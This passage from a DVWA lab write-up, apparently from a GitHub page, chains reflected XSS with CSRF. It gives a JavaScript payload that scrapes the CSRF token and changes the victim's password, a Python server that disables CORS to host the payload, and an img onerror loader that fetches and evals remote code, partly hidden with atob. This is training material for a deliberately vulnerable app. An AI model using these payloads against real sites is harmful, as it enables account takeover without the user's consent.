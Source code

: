 where `user_token` was obtained from a previous GET request to CSRF change password page. To create such URL we first experiment with JS code that is able to extract the `user_token` from the webpage in order to craft a valid GET request for changing the password of the user with a custom password. The following JS code does the job.

#### Payload

```javascript
var newpass = "test"
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://localhost/DVWA/vulnerabilities/csrf/', false);
xhr.onload = function() {
    var doc = new DOMParser().parseFromString(this.responseText, "text/xml");
    var csrf = doc.getElementsByName("user_token")[0].getAttribute("value");
    var xhr2 = new XMLHttpRequest();    
    xhr2.open('GET', `http://localhost/DVWA/vulnerabilities/csrf/?password_new=${newpass}&password_conf=${newpass}&Change=Change&user_token=${csrf}`, false);
    xhr2.send(null);
};
xhr.send(null);
```

We save this payload onto a file called `high.js`.

Now we need to find a way to execute this JS payload onto the victim browser. To avoid the block of the hard challenge of the reflected XSS, the idea is to write a small loader that loads a much bigger javascript file and executes it with eval. We can load this file by creating a malicious server which disables CORS checks. The code for such server is shown below

```python
#!/usr/bin/env python3

from http.server import HTTPServer, SimpleHTTPRequestHandler, test
import sys

class CORSRequestHandler (SimpleHTTPRequestHandler):
    def end_headers (self):
        self.send_header('Access-Control-Allow-Origin', '*')
        SimpleHTTPRequestHandler.end_headers(self)

if __name__ == '__main__':
    test(CORSRequestHandler, HTTPServer, port=int(sys.argv[1]) if len(sys.argv) > 1 else 8000)
```

We save that in `high-cors-server.py` and then execute it as follows

```bash
python3 high-cors-server.py
```

Once we have that running, we can use the following payload on the high reflected XSS challenge page of DVWA

```html
<img src='#' onerror="var xhr = new XMLHttpRequest(); xhr.open('GET', 'http://localhost:8000/high.js', false); xhr.onload = function () {eval(this[atob('cmVzcG9uc2VUZXh0')])}; xhr.send(null); " />
```

